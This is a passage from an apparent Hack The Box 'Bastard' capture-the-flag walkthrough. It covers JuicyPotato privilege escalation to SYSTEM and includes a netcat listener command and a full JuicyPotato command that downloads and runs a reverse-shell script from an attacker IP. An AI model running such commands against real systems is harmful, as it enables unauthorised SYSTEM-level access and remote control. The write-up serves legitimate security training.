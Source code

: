 Looking at this text, we can see that we require 3 things, `-t` to tell the exploit how to create the process, `-p` to tell it what program to launch, and `-l` to give it a local COM port to listen on. In our case, we'll also need to specify the `-a` option, which provides additional arguments for the program we call with `-p`. Although it's not needed sometimes, we should specify a CLSID for the `-c` option, which tells the exploit what COM object to link to. In our case, we'll be using `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`, which denotes *wuauserv*, the Windows Update service. A full list of CLSID's is available on the JuicyPotato site [here](https://ohpe.it/juicy-potato/CLSID/).

Before we can run the exploit on target, we need to make a copy of the previously used `revshell.ps1`, and rename it to `revshell2.ps1`. We also need to modify the script to point to port 7600 instead of 7500. Don't forget to open another listener for this shell with `rlwrap nc -lvnp 7600`.

Our final command is below. As you can see, running it on the target will kick off PowerShell as `NT AUTHORITY\SYSTEM`, and runs the command to grab and run `revshell2.ps1`.

```powershell
./jp.exe -l 9000 -p C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -t * -c '{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}' -a "-c IEX(new-object net.webclient).downloadstring('http://10.10.14.24/revshell2.ps1')"
```

![](/assets/htb-bastard/root_shell.png)

We can read `root.txt` from `C:\Users\Administrator\Desktop\root.txt.txt`.

![](/assets/htb-bastard/root_proof.png)
